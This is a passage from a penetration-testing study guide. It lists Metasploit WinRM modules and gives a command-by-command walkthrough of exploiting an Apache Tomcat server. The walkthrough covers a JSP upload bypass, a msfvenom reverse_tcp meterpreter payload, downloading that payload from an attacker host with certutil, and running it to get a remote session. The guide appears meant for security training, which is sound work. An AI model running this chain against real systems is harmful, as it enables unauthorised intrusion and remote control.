 I will skip over this because we've already seen how to exploit this vulnerability and in great depth on the 
Host and network Pentesting: Host-based Attacks/WINDOWS_README.md. So go check that out.

<a id=6.1.3></a>
### Exploiting WinRM

This too is on the Host and network Pentesting: Host-based Attacks/WINDOWS_README.md file and well explained. Go there, please? Pretty please?

Although I will list some useful Metasploit modules.

- Auxiliary: winrm_auth_methods
- Auxiliary: winrm_cmd
- Auxiliary: winrm_login
- Auxiliary: winrm_wql
- Exploit: winrm_script_exec > Get yourself some creds before using this... and FORCE_VBS my friend!

<a id=6.1.4></a>
### Exploiting Tomcat

This... this isn't there. Or anywhere really. So lets check it.

Apache Tomcat is a FOSS Java servlet web server. It works like a typical web server, although it usually runs on port 8080 by default, but
it can be changed. 

The main differences between Apache and Apache Tomcat is that one is used to host static or dynamic webpages or web apps developed in PHP, while
the other is used to host websites or web applications developed in Java.

We'll manhandle a Tomcat server version 8.5.19> which is vulnerable to a JSP payload to execute a RCE vulnerability.

```bash
msf6 > workspace -a Tomcat
msf6 > setg RHOSTS [TARGET]
msf6 > setg RHOST [TARGET]
msf6 > db_nmap -sS -sV -O [TARGET]
msf6 > searc type:exploit tomcat_jsp
msf6 > use exploit/multi/http/tomcat_jsp_upload_bypass
msf6 exploit(multi/http/tomcat_jsp_upload_bypass) > set RPORT [PORT]
msf6 exploit(multi/http/tomcat_jsp_upload_bypass) > show targets
msf6 exploit(multi/http/tomcat_jsp_upload_bypass) > set target [TARGET]
msf6 exploit(multi/http/tomcat_jsp_upload_bypass) > set payload java/jsp_shell_bind_tcp
msf6 exploit(multi/http/tomcat_jsp_upload_bypass) > set SHELL [SHELL]
msf6 exploit(multi/http/tomcat_jsp_upload_bypass) > run
# background the session asap... we cant upgrade our session, but we can make a msfvenom payload
# and get a new session through the multi/handler. lets open a new terminal.
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=[ATTACKER_IP] LPORT=[ATTACKER_PORT] -f exe -o met.exe
# now we need to upload this to the target... we can use an http server.
$ python -m http.server 80
# lets go back to the msfconsole...
msf6 exploit(multi/http/tomcat_jsp_upload_bypass) > sessions 1
C:\> certutil -urlcache -f http://[ATTACKER_IP]/met.exe
# lets get back to the other terminal
$ msfconsole
msf6 > use multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST [ATTACKER_IP]
msf6 exploit(multi/handler) > set LPORT [ATTACKER_PORT]
msf6 exploit(multi/handler) > run
# now lets go back to the cmd session...
C:\> .\met.exe
# and a meterpreter has been created...
```